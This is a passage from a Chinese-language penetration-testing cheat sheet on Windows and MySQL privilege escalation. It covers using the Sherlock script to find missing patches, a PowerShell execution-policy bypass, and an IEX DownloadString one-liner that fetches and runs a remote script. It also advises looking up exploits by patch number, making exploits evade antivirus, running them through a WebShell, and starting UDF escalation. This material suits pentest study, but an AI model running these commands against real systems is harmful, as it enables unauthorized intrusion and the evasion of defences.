 *   [Sherlock](https://github.com/rasta-mouse/Sherlock)：在 Windows 下用于本地提权的 PowerShell 脚本
    *   分析漏洞出漏洞后利用对应 Exp 即可

```
# 启动Powershell
$ powershell.exe -exec bypass

# 本地加载脚本
$ Import-Module Sherlock.ps1

# 远程加载脚本
$ IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/rasta-mouse/Sherlock/master/Sherlock.ps1')

# 检查漏洞，Vulnstatus为Appears Vulnerable即存在漏洞
$ Find-AllVulns
```

*   提权辅助平台
    *   [漏洞编号查询](https://i.hacking8.com/tiquan/)：根据补丁信息查找漏洞编号
    *   [Exp 查询](https://bugs.hacking8.com/tiquan/)：根据补丁信息查找 Exp
*   [Windows-Kernel-Exploits](https://github.com/SecWiki/windows-kernel-exploits)：Windows 平台提权漏洞集合

### 提权步骤

> 除了需要注意每种漏洞所适用的详细系统版本及位数外，实战中还需要事先免杀并调试好 Exp，否则可能有蓝屏等风险。

*   先运行`systeminfo`，并将其中的修补程序内容复制到[提权辅助平台 - Exp 查询](https://bugs.hacking8.com/tiquan/)进行查询 Exp。如：

```
[01]: KB2999226
[02]: KB976902
```

*   然后根据可选补丁编号以及目标系统，选择对应的 Exp 下载运行即可。
    
*   另外还需要注意**提权 Exp 的运行方式**，一般有以下几种：
    
    *   直接执行 exe 程序，成功后会打开一个 cmd 窗口，在新窗口中权限就是`system`
    *   在 WebShell 中执行 exe 程序，执行方式为`xxx.exe whoami`，成功后直接执行命令，再修改命令内容，可以执行不同的命令
    *   利用 MSF 等工具
    *   C++ 源码，Python 脚本，PowerShell 脚本等特殊方式

数据库提权
-----

### MySQL

*   前提：拿到 Root 密码
*   注意：
    *   MySQL5.7 以后`secure-file-priv`的问题
    *   MySQL5.7 后，系统的用户表`mysql.user`中的密码字段已从`password`修改为`authentication_string`

#### UDF 提权

*   原理：通过 root 权限，导入`udf.dll`到系统目录下，可以通过`udf.dll`调用执行 cmd
    